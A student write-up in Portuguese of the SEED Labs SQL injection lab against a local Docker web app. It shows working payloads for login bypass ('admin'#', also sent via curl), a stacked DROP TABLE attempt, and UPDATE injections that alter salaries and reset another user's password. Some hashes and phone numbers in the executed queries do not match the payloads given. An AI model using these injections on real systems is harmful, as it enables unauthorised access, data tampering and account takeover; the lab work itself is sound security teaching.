

### SQL Injection Attack Lab

## Setup
Primeiro fomos á pasta etc e adicionamos uma nova entrada nos hosts removendo as que usavam o mesmo id '10.9.0.5' e usamos os seguintes comandos :

```bash
$ dcbuild               # docker-compose build
$ dcup                  # docker-compose up

$ dockps
eec1593df31f  www-10.9.0.5 
3a7138fb5eaf  mysql-10.9.0.6

$ docksh 3a             # Abrindo shell do MySQL container
$ mysql -u root -pdees  # Executa o MySQL com utilizador root
$ use sqllab_users;     # Seleciona o schema
```
## Tasks

### Task 1- Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do user "Alice" que realizamos com o seguinte comando : 

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```
Obtendo os dados de "Alice" :


###  Task 2- SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage
Acedemos a "www.seed-server.com" atraves do container do Docker e ao ficheiro 'unsafe_home.php', onde reparamos que a query utilizada é frágilizada pois o servidor cria o comando dinamicamente com strings não sanitizadas do utilizador:

```sql
WHERE name= '$input_uname' and Password='$hashed_pwd'
```
Como apenas o campo de password é cifrado então fizemos a pesquisa usurpando o campo name , usando como input "admin'#" que vai comentar a parte da verificação feita pela password .
Assim, o código executado pelo servidor passou a ser :

```sql
SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```
Conseguimos entao fazer login com a conta do admin obtendo os dados do resto dos users:


#### Task 2.2 - Login in adminstrator mode from command line

Desta vez realizamos o ataque através de um pedido GET que conforme o guiao tem o seguinte formato :
```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```
Com o mesmo input da task 2.1, apenas alterando ' e #  usando as seguintes convenções: %27 = ' e %23 = # , obtivemos o comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtivemos o código HTML de toda a página que contendo os dados pessoais dos users:




#### Task 2.3 - Append a new SQL statement

Podemos adicionar novos comandos SQL usando ";". Para isso, modificamos no nosso input malicioso inicial para que ocorresse um side-effect no servidor. Por exemplo eliminar a tabela das credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

No entanto não foi possivel executar devido a um erro na base de dados:


Segundo a seguinte [fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL usada pelo PHP do servidor tem uma proteção que impede a execução de múltiplas queries, o que impossibilitou a conclusão do ataque.

### Task 3 - SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Após dar login com uma conta do sistema name = Alice, password = seedalice, tivemos acesso a uma página para editar os dados pessoais. Esta vem apartir do ficheiro disponibilizado `unsafe_edit_backend.php`, que contém uma query formada dinamicamente com strings não sanitizadas do utilizador.

No nosso ataque utilizamos o campo "phone number" ,que usando a mesma técnica da task 2.1  obtivemos o seguinte código que pode manipular o salário do utilizador:

```sql
911111111',Salary='9999999
```

Manipulando o uso de ' para fechar o campo "phone number" e abrir para o campo Salary , aproveitando o ' proveniente do codigo sql no ficheiro antes do  WHERE. 

Executando o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='9999999' WHERE ID=$id;
```


Assim, a variável "Salary" foi também alterada para o valor escolhido:


#### Task 3.2 - Modify other people’ salary

Para alterar o valor do salário de outro utilizador usamos uma técnica semelhante,apenas criamos uma WHERE clause diferente, comentando a que estava no sistema de modo a não interferir na pesquisa:

```sql
933667378',Salary='-9999999' WHERE Name='Boby'#
```

Executando o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```

Aqui podemos ver o salário do Boby depois do ataque:


#### Task 3.3 - Modify other people’ password

Para alterar a password de outro utilizador usamos uma técnica parecida com a anterior. Desta vez o valor a modificar foi cifrado com criptografia SHA1. 
Para a nova palavra-passe usamos: `bobword` cujo o hash é `9eda1edd513aff89885c775767de8f98b998dbda`.

```sql
912345678', password='9eda1edd513aff89885c775767de8f98b998dbda' WHERE name='Boby'#
```

Executando o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378', password='73335c221018b95c013ff3f074bd9e8550e8d48e' WHERE name='Boby'# WHERE ID=$id;
```

Com a nova palavra passe alterada, conseguimos entrar na conta do Boby e ver os seus dados:


